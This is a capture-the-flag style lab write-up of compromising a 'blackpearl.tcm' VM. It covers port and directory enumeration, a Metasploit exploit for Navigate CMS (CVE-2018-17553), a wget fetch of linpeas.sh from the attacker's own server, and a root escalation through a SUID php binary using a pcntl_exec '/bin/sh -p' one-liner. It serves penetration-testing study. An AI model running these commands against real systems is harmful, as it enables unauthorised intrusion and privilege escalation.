 
**Target** - 192.168.32.136


```
nmap -A -p- -T4 192.168.32.136
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 15:16 EDT
Nmap scan report for 192.168.32.136
Host is up (0.00027s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
MAC Address: 00:0C:29:9A:5E:68 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.27 ms 192.168.32.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.01 seconds
```


```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt:FUZZ -u http://192.168.32.136/FUZZ -s     
# Copyright 2007 James Fisher
#
# directory-list-1.0.txt
# Attribution-Share Alike 3.0 License. To view a copy of this 
#
# Suite 300, San Francisco, California, 94105, USA.
#
# Unordered case sensative list, where entries were found 

#
# on atleast 2 host.  This was the first draft of the list.
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ 
# This work is licensed under the Creative Commons 
# or send a letter to Creative Commons, 171 Second Street, 
secret
```


#dnsrecon
# DNS Recon
`dnsrecon -r 127.0.0.0/24 -n 192.168.32.136 -d nan`

Results
```bash
[*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
[+]      PTR blackpearl.tcm 127.0.0.1
[+] 1 Records Found

```

Let's add it to `/etc/hosts`

![[Pasted image 20250510202122.png]]

Let's enumerate the url.
- You can either use `ffuf`, `gobuster`, `dirbuster` or another tool of your choice

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt:FUZZ -u http://blackpearl.tcm/FUZZ -s

# or send a letter to Creative Commons, 171 Second Street, 
# Copyright 2007 James Fisher
#
#
#
# Attribution-Share Alike 3.0 License. To view a copy of this 
# Suite 300, San Francisco, California, 94105, USA.
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ 
# This work is licensed under the Creative Commons 
#
# on atleast 2 host.  This was the first draft of the list.
# directory-list-1.0.txt
# Unordered case sensative list, where entries were found 
navigate

```


http://blackpearl.tcm/navigate/login.php
![[Pasted image 20250510202352.png]]

It uses ==Navigate CMS v2.8==

Found:
- Navigate CMS - (Unauthenticated) Remote Code Execution (Metasploit)
- EDB-ID:
- 45561
- CVE:2018-17553, 2018-17552

#metasploit
`msf6 > search CVE:2018-17553`

![[Pasted image 20250510202759.png]]
We're in!

Spawn TTY shell: `python -c 'import pty; pty.spawn("/bin/sh")'`

Use python http server
1) CD to tmp
2) `wget http://192.168.32.131:8082/linpeas.sh`

**SUID** instead of rwx, its rws
If s is present in permissions, the SUID owner can run it
- Similar wis SGID

```bash
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                          
                      ╚════════════════════════════════════╝                                                                                                
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                             
strings Not Found                                                                                                                                           
strace Not Found                                                                                                                                            
-rwsr-xr-- 1 root messagebus 50K Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                   
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary!)
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd

╔══════════╣ SGID
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                             
-rwxr-sr-x 1 root shadow 31K Jul 27  2018 /usr/bin/expiry                                                                                                   
-rwxr-sr-x 1 root tty 35K Jan 10  2019 /usr/bin/wall
-rwxr-sr-x 1 root ssh 315K Jan 31  2020 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 15K May  4  2018 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 43K Oct 11  2019 /usr/bin/crontab
-rwxr-sr-x 1 root mail 19K Dec  3  2017 /usr/bin/dotlockfile
-rwxr-sr-x 1 root shadow 71K Jul 27  2018 /usr/bin/chage
-rwxr-sr-x 1 root shadow 39K Feb 14  2019 /usr/sbin/unix_chkpwd

```

Interesting - `-rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary!)
`
Using GTFO bins on php, using the SUID. We run:
```
SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

    sudo install -m =xs $(which php) .

    CMD="/bin/sh"
    ./php -r "pcntl_exec('/bin/sh', ['-p']);"


```

Let's run it: `/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"` in the tmp dir

![[Pasted image 20250510204447.png]]

We now have root.
- Staying as user, but executing shell as root
